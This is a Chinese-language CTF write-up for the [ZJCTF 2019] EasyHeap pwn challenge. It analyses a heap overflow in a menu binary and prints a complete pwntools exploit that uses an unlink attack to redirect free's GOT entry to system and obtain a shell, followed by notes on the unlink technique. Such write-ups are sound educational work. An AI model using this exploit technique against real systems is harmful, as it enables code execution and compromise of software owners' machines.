

## [ZJCTF 2019]EasyHeap

这里看到题目是一个heap应用这里先经典三件套


这里发现是一个64位的文件开启了canary和一个栈不可以执行


这里发现是一个经典的菜单题

先看main函数

这里可以看到一些常见的逻辑点发现有一个133t()函数今天去看看发现了一个漏洞


其他的先看heap的创建函数


发现heaparray中存放了chunk并且read_input()函数向chunk中写入了size并且可以知道heaparray存放在bss段中


这里看到是一个read_input中把v0改成v2可以存在堆溢出



这里发现不可能存在uaf应为free后进行了初始化的一个变化因此想到了堆溢出

但是想到上面的那个漏洞函数中发现它并不存在这个目录因此试试堆溢出

所以优先先到了unlink

并且他没有开启pie保护因此正好可以修改free的got表

因此exp：

```python
from pwn import *
context.log_level='debug'
io = process('/home/fofa/easyheap')
# io = remote("node5.buuoj.cn",26420)
elf = ELF('/home/fofa/easyheap')

def add(size,content):
    io.recvuntil("choice :")
    io.sendline("1")
    io.recvuntil("Size of Heap : ")
    io.sendline(str(size))
    io.recvuntil("Content of heap:")
    io.send(content)


def edit(index,size,content):
    io.recvuntil("choice :")
    io.sendline("2")
    io.recvuntil("Index :")
    io.sendline(str(index))
    io.recvuntil("Size of Heap : ")
    io.sendline(str(size))
    io.recvuntil("Content of heap : ")
    io.send(content)

def delete(index):
    io.recvuntil("choice :")
    io.sendline("3")
    io.recvuntil("Index :")
    io.sendline(str(index))

# heaparray_addr = 0x6020E0
system_plt = elf.plt['system']
free_got = elf.got['free']

add(0x90,'aaaaa')
add(0x90,'bbbbb')
add(0x20,b'/bin/sh\x00')


heaparay_addr = 0x06020E0
fake_chunk = p64(0)+p64(0x91)+p64(heaparay_addr-0x18)+p64(heaparay_addr-0x10)
fake_chunk = fake_chunk.ljust(0x90,b'm')
fake_chunk += p64(0x90)+p64(0xa0)
# gdb.attach(io)
edit(0,0x100,fake_chunk)
delete(1)
payload = p64(0)*3 +p64(free_got)
edit(0,0x10 ,payload)
gdb.attach(io)

edit(0,8,p64(system_plt))
delete(2)

# gdb.attach(io)

# payload =
io.interactive()
```

---

### 总结

这个题目主要用到了unlink的一个方法

#### 基本原理

unlink是一个宏操作，用于将某一个空闲 chunk 从其所处的双向链表中脱链，

我们来利用unlink 所造成的漏洞时，其实就是对进行 unlink chunk 进行**内存布局**，然后借助 **unlink** 操作来达成修改指针

的效果。

##### 利用条件

1. UAF ，可修改 free 状态下 smallbin 或是 unsorted bin 的 fd 和 bk 指针
2. 已知位置存在一个指针指向可进行 UAF 的 chunk

##### 利用思路

设指向可 UAF chunk 的指针的地址为 ptr

1. 修改 fd 为 ptr - 0x18
2. 修改 bk 为 ptr - 0x10
3. 触发 unlink

ptr 处的指针会变为 ptr - 0x18。

##### 实现效果

可以是的我们可以直接更改ptr-0x18位置的chunk的地址是的它可以替换为system函数的got表